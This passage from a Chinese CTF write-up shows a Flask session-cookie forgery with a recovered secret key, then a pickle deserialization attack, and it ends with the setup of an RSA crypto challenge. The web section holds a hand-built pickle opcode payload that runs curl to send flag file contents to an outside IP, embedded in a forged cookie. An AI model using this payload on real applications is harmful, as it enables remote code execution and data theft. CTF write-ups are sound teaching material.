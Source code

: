得到key **bee6**
##### 伪造session
[https://github.com/noraj/flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager)
```bash
python flask_session_cookie_manager3.py enocde -s "bee6" -t "{'user':'admin'}"
```
```
eyJ1c2VyIjoiYWRtaW4ifQ.Yy_huw.1xsjHN3OtwwMCBzwq7ex4gLhilo
```
进入admin
#### pickle反序列化
[从零开始python反序列化攻击：pickle原理解析 & 不用reduce的RCE姿势 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/89132768)  

[蓝帽杯 2022 web/misc writeup - ek1ng's Blog](https://ek1ng.com/LMCTF2022.html#file-session)  

[反弹Shell，看这一篇就够了 - 腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1818091)  

序列化

```python
import base64
opcode = b'''c__builtin__
map
p0
0(S'curl http://175.178.47.228:9999/?q=`cat f*`'
tp1
0(cos
system
g1
tp2
0g0
g2
\x81p3
0c__builtin__
bytes
p4
(g3
t\x81.'''
print(base64.b64encode(opcode))
```
伪造session
```bash
python3 flask_session_cookie_manager3.py encode -s "d0c0" -t "{'user':'admin','ser_data':'Y19fYnVpbHRpbl9fCm1hcApwMAowKFMnY3VybCBodHRwOi8vMTc1LjE3OC40Ny4yMjg6OTk5OS8/cT1gY2F0IGYqYCcKdHAxCjAoY29zCnN5c3RlbQpnMQp0cDIKMGcwCmcyCoFwMwowY19fYnVpbHRpbl9fCmJ5dGVzCnA0CihnMwp0gS4='}"
```
发送，得到flag
## Crypto
### strange_rsa1
```python
from Crypto.Util.number import *
from sage.all import RealField
from secret import flag1

Bits = 512
p = getPrime(Bits)
q = getPrime(Bits)
n = p * q

gift = RealField(prec=Bits*2)(p) / RealField(prec=Bits*2)(q)
e = 0x10001
m = bytes_to_long(flag1)
c = pow(m, e, n)
```